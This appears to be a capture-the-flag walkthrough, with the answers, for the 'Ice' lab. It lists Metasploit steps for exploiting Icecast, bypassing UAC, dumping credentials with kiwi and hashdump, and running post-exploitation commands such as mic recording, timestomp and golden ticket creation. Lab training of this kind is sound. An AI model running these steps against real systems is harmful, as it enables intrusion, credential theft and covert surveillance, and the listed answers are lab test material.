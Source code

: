 # Ice

## Summary

## Solutions

1. Connect

   1. Connect to network and Complete
   2. Complete
   3. Complete
   4. Complete

2. Recon

   1. Deploy and Complete
   2. `sudo nmap -sV -vv -sC -sS -A -p- --script vuln <BOX_IP>`
   3. `3389` (ms-wbt-server)
   4. `Icecast`
   5. `DARK-PC`

3. Gain Access

   1. Finding the exploit
      1. exploit-db search for icecast
      2. find exploit with metasploit
      3. search in [http://www.cvedetails.com]
      4. `execute code overflow`
   2. `CVE-2004-1561`
   3. `msfdb init` -> `msfconsole`
   4. `search icecast` -> `exploit/windows/http/icecast_header`
   5. `use 0`
   6. `show options` -> `RHOSTS`
   7. `exploit`

4. Escalate

   1. `meterpreter`
   2. `getuid` -> `Dark`
   3. `sysinfo` -> `7601`
   4. `x64`
   5. `run post/multi/recon/local_exploit_suggester`
   6. `exploit/windows/local/bypassuac_eventvwr`
   7. `background`
   8. `use exploit/windows/local/bypassuac_eventvwr`
   9. `set SESSION 1`
   10. `LHOST`
   11. `ip_addr` -> `set LHOST <output_eth_ip>`
   12. `run -j`
   13. `session 2`
   14. `getprivs` -> `SeTakeOwnershipPrivilege`

5. Looting

   1. `ps`
   2. `spoolsv.exe`
   3. `migrate -N spoolsv.exe`
   4. `NT AUTHORITY\SYSTEM`
   5. `load kiwi`
   6. `help`
   7. `creds_all`
   8. `Password01!`

6. Post-Exploitation

   1. `help`
   2. `hashdump`
   3. `screenshare`
   4. `record_mic`
   5. `timestomp`
   6. `golden_ticket_create`
   7. `run post/windows/manage/enable_rdp`

7. Extra Credit

   1. Complete
